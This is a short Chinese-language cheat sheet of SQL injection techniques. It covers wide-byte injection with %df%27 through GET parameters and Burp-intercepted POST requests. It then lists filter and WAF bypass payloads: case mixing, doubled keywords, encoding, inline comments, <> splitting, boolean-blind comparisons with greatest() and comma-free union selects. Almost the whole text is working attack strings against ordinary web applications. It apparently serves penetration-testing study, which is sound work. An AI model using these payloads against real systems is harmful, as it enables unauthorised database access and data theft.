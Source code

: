 ?id=1%df\'

post类
burp抓包
在目标位置admin%df%27 union select 1,2 #
把%df%27框起来，右键-convert selection-url--url decode

因为GET会自动把数据进行url解码，post不会把数据进行url解码，所以我们需要手工操作

==================

奇淫巧计：

常见绕过：
1.大小写绕过
Union SelEct

2.双写绕过
ununionion

3.编码绕过
security-->hex编码
urlencode

4.注释符/**/
uni/**/on sel/**/ect

5.对于空格绕过

6.对于or and绕过
and = &&
or = ||

7.单引号
%df%27

8.反引号
反引号只能在表名，一般情况下如果表名和语法一样，那么就必须用反引号修饰，否则数据库会误以为这是语法！！！！！！！！！！！！！！！！！！！！！！
select username,password from `table1` where id='1' limit 0,1

where

select * from `where` where id =1

9.内联注释
and /*!select*/ 1,2

10.<>绕过
uni<>on sel<>ect

select * from users where id=1 and ascii(substr(database(),0,1)) > 115
greatest least

select * from users where id=1 and greatest(ascii(substr(database(),0,1)),64)=64

11.屏蔽逗号
select substr("xxxxx",1,3)
select substr("xxxxx" from 1 to 3)

union select 1,2,3
union select * from (select 1)a join (select 2)b join (select 3)c;
